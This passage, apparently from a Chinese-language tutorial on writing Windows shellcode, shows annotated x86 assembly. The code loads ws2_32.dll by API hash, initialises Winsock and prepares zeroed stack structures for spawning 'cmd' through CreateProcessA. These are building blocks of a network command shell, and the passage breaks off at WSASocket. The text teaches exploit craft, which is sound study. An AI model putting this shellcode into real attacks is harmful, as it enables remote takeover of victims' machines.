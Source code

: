 这差不多就是解析 API 入口地址的全过程，唯一欠缺的就是从 kernel32.dll 切换到ws2_32.dll 中去解析函数地址了。当搞定前三个函数地址的时候，在执行 find_functions 之前加入下面几行代码来做到动态连接库的切换。

```x86asm
cmp al, 0xd3 	;hash of WSAStartup 相等时就该装载ws2_32.dll了
jne find_functions
xchg eax, ebp	;save current hash，eax会因调用函数而改变
call [edi - 0xc] ;LoadLibraryA 当前edi是存了3个函数地址后的指针，每个地址4byte，所以减0xc。而且当前esp正好指向了“ws2_32”字符串的指针。
xchg eax, ebp 	;restore current hash, and update ebp
				;with base address of ws2_32.dll
push edi 		;save location of addr of first Winsock function 
```

获得了这些函数地址之后，我们需要恰当地调用这些 Winsock 相关的函数。
- 首先需要调用 WSAStartup 来初始化 Winsock。前面已经说过在解析函数的同时就把函数地址存在了栈中，并且是按照调用顺序存放的。因此，可以把函数地址装入 esi
- 然后用 lodsd/call eax 来调用每一个需要的 Winsock 函数。


WSAStartup 函数有两个参数。 
```c++
int WSAStartup(
	WORD wVersionRequested,
	LPWSADATA lpWSAData
); 
```

我们用栈区存储 WSADATA 结构体。由于这是一个[out]参数，且用于函数回写返回值，故不需要专门去初始化这个结构体。前边我们已经为自己开辟了足够大的栈空间，所以这里只要让这个结构体指针指向栈内一块空闲的区域，别让函数在回写返回值的时候冲掉有用的数据或者 shellcode 就行。

```asm
pop esi ;location of first Winsock function
push esp ;lpWSAData
push 0x02 ;wVersionRequested
lodsd	
call eax ;WSAStartup 
```

WSAStartup 返回 0 代表 Winsock 初始化成功（如果非 0，也就不用指望其余的代码能够成功运行了）。所以在 eax 中我们又有一个唾手可得的 NULL 用来做其他事情了。字符串“cmd”后面需要 NULL 作为字符串的结束；其他 Winsock 函数的参数中有不少也是 NULL。如果现在我们把栈中一大片区域都置成 NULL，那么在调用这些函数的时候就可以省去好几条对 NULL的压栈指令。

除此以外，在调用 CreateProcessA 的时候我们只要对这片为 NULL 的栈区稍作“点缀”，就可以初始化出一个 STARTUPINFO 结构体。

```asm
;返回值存与eax，为0
mov byte ptr [esi+0x13],al
lea ecx, [eax+0x30]
mov edi,esp
rep stosd
```

WSASocket函数有6个参数：
```c++
SOCKET WSASocket(
	int af,
	int type,
	int protocol,
	LPWSAPROTOCOL_INFO lpProtocolInfo,
	GROUP g,
	DWORD dwFlags
); 
```
